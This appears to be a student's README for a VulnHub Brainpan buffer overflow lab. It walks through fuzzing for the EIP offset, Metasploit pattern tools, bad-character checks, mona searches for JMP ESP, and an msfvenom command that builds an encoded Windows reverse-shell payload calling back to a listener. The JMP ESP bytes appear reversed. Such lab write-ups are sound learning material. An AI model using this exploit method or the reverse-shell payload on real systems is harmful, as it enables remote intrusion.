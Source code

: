 # bufferOverflow

This is my first BufferOverflow exerise - VulnHub Brainpan

Tool: Immunity Debugger

### Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
### Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
  
    locate the pattern_create
    
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
    
  Program: 2-controlling-eip.py
  
  
   
### Step 3 Locating Space and prepare the shellCode

    Finding the ESP addess 
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  
  Program: 2-controlling-eip.py

### Step 4 Check Bad Characters

    Send \x01...\xff to the system and check which char(s) have been truncated
    Program: 3-controlling-eip.py
  

### Step 5 check any memory protections such as DEP adn ASLR
    
    Immunity Debugger Command: !mona modules
  

### Step 6 Locate the JMP ESP

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  
    JMP ESP address => \xe4\xff
  
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
  
  
### Step 7 Generating ShellCode using Metasploit

    Metasploit Command: msfvenom -l payloads
  
    Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  
    -f format
    -e encode
    -b exclude character 
 
 ### Step 8 Sending the ShellCode 
 
  Program: 4-expolit-lin.py
  
  Program: 4-expolit-win.py
 
  
